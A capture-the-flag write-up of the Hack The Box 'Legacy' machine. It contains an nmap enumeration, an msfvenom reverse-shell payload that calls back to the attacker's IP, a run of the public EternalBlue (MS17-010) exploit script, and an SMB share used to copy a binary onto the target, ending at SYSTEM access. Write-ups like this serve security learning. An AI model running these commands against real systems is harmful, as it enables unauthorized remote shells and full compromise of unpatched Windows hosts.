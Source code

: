 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jul  7 18:51:17 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/7%OT=135%CT=1%CU=40757%PV=Y%DS=2%DC=T%G=Y%TM=62C763A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:0)OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NN
OS:T00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4
OS:=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)T1(R
OS:=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=%
OS:RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M539NW0NNT00NNS%RD=0%Q=)
OS:T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:60:72 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-07-13T03:49:51+03:00

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   73.78 ms 10.10.14.1
2   73.83 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  7 18:52:21 2022 -- 1 IP address (1 host up) scanned in 64.24 seconds
```
**Smb vulnerabilities scan:** [nmap -sS -p139,445 10.10.10.4 -v --script vuln]:

![smb_scan](images/legacy/smb_vuln_scan.png)

**Initial Shell Vulnerability Exploited: EternalBlue**\
With the results of the nmap vulnerabilities scan, it seems like the machine is vulnerable to [MS017-10](https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py) (EternalBlue Exploit).

I first used msfvenom to generate a payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443
EXITFUNC=thread -f exe -a x86 --platform windows -o reverseshell.exe
```
And then ran the exploit:
```bash
python send_and_execute.py 10.10.10.4 revshell.exe
```

**Vulnerability Explanation:**\
The EternalBlue exploit works by taking advantage of SMBv1 vulnerabilities present in older versions of
Microsoft operating systems.\
The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted
packets from malicious attackers. All the attacker needs to do is send a maliciously-crafted packet to the
target server, and the malware propagates and a cyberattack ensues.\
**Vulnerability Fix:**\
Microsoft has released a set of patches for Windows Vista, 2008, 7, 2008 R2, 2012, 8.1, RT 8.1, 2012 R2,
10, and 2016. Microsoft has also released emergency patches for Windows operating systems that are no
longer supported, including Windows XP, 2003, and 8.\
In this scenario, the machine uses Windows XP, and for unsupported Windows operating systems, e.g.
Windows XP, Microsoft recommends that users discontinue the use of SMBv1.

**Initial Shell Screenshot:**\
<img src="images/legacy/initialshell.png" alt="initial_shell_poc" width="500" height="150"/> </br> 

<!--Privilege Escalation:-->

# Privilege Escalation:
After getting access to the machine, I could not run the 'whoami' command, I tried using 'echo &username%' instead, but it didn't work.\
To solve it, I transferred the 'whoami' command from my Kali Linux to the target machine.\
the 'whoami.exe' binary in Kali is located in this directory: /usr/share/windows-resources/binaries/
\
In order to transfer this binary, I created a smb share:
```bash
smbserver.py a /usr/share/windows-resources/binaries/ 
```
And downloaded the file in the target machine:
```bash
copy '\\\10.10.14.39\a\whoami.exe'
```
Ran the binary, as saw that I have NT AUTHORITY/SYSTEM privileges.\
Proof Screenshot here: </br>
![priv_esc_poc](images/legacy/privesc_poc.png)